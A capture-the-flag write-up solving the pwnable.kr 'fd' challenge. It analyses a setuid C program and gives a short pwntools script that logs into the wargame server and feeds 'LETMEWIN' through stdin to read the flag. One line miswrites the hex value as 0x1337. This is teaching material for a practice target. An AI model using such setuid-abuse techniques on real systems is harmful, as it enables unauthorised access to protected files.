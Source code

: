 # fd Writeup

## Challenge infos

```text
Mommy! what is a file descriptor in Linux?

* try to play the wargame your self but if you are ABSOLUTE beginner, follow this tutorial link:
https://youtu.be/971eZhMHQQw

ssh fd@pwnable.kr -p2222 (pw:guest)
```

## Server content

```text
$ sshpass -p guest ssh fd@pwnable.kr -p2222
 ____  __    __  ____    ____  ____   _        ___      __  _  ____
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    /
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|


- Site admin : daehee87.kr@gmail.com
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
Last login: Tue Apr  9 04:32:14 2019 from 203.249.127.35
fd@ubuntu:~$ ls -la
total 40
drwxr-x---  5 root   fd   4096 Oct 26  2016 .
drwxr-xr-x 93 root   root 4096 Oct 10 22:56 ..
d---------  2 root   root 4096 Jun 12  2014 .bash_history
-r-sr-x---  1 fd_pwn fd   7322 Jun 11  2014 fd
-rw-r--r--  1 root   root  418 Jun 11  2014 fd.c
-r--r-----  1 fd_pwn root   50 Jun 11  2014 flag
-rw-------  1 root   root  128 Oct 26  2016 .gdb_history
dr-xr-xr-x  2 root   root 4096 Dec 19  2016 .irssi
drwxr-xr-x  2 root   root 4096 Oct 23  2016 .pwntools-cache
fd@ubuntu:~$ id                                                                                                                                     
uid=1004(fd) gid=1004(fd) groups=1004(fd)                                                                                                           
fd@ubuntu:~$ file fd
fd: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.24, BuildID[sha1]=c5ecc1690866b3bb085d59e87aad26a1e386aaeb, not stripped
fd@ubuntu:~$ cat fd.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

}

fd@ubuntu:~$
```
## Exploitation objective
* The ssh user is ```fd```, group ```fd```
* The ```flag``` file is readable only by the user ```fd_pwn``` or the group ```root```
* The ```fd``` binary is a 32bit ELF executable by the ```fd_pwn``` user or members of the ```fd``` group and is ```suid``` meaning that it executes with the rights of its user even if called by a member of its group

This means that if we pwn the ```fd``` executable we can gain read access to the ```flag``` file via suid user ```fd_pwn```.

The ```fd``` executable is certainly compiled from the ```fd.c``` source code, let's have a look.

## C code analysis
```c
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
```

* We need to call the program with a number as first argument : ```./fd [n]```


```c
        int fd = atoi( argv[1] ) - 0x1234;
```

* The ```[n]``` argument is used to define the ```fd``` variabl by substracting ```0x1234``` (hexadecimal number 4660) from it

```c
        len = read(fd, buf, 32);
```

* The ```fd``` variable is used as the file descriptor to read a string to the buffer ```buf```

```c
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
```

* If the content of the buffer ```buf``` is equal to ```"LETMEWIN\n"``` (```\n``` denotes newline character) the executable calls ```system()``` to output the content of ```flag``` with ```cat```, this is our target

## File descriptor understanding

The ```fd``` variable is a file descriptor, an unique value linking to an open stream for reading or writing

There is 3 defined files descriptors when the program is started and we can define new ones with a call to ```open()```

The 3 already open ones are :
* ```0``` : refers to ```stdin```, the standard input stream, read only
* ```1``` : refers to ```stdout```, the standard output stream, write only
* ```2``` : refers to ```stderr```, the standard error stream, write only

## Exploitation

* There is no call to ```open()``` in the program but since we can manipulate ```fd``` through ```[n]``` we can set it to ```0``` in order to read from ```stdin```

* If we set ```[n]``` to ```0x1337``` = ```4660``` we can call the program with ```./fd 4660```, forcing it to read the buffer frmo ```stdin```

* We the input ```LETMEWIN``` and press ```Enter``` to send a newline character ```\n```

* The check is then passed and the ```flag``` is output

* ```PWN```

## Exploitation script

```python
#!/usr/bin/env python
from pwn import *
```
* Use [pwntools](https://github.com/Gallopsled/pwntools) for automatic exploitation
```python
argv_1 = 0x1234
```
* Set the ```argv_1``` variable to ```0x1234``` (Python can understand hexadecimal values by starting a number with ```0x``` and converts them to decimal)
```python
# io = process(['./fd', str(argv_1)])

server = ssh('fd', 'pwnable.kr', 2222, 'guest')
io = server.process(['./fd', str(argv_1)])
```
* During testing the ```io``` is set to the local ```./fd``` executable downloaded by the setup script
* After the exploit is working we can use it on the server by ssh-ing to it before setting ```io``` to the remote ```.\fd``` executable
* In both cases, pass the ```argv_1``` argument
```python
io.sendline('LETMEWIN')

result = io.recvall()

io.close()
server.close()

print(result)
```
* Send the ```LETMEWIN``` line with a newline character (with ```sendline()```)
* Print the ```result``` which is the ```flag```
* ```PWN```
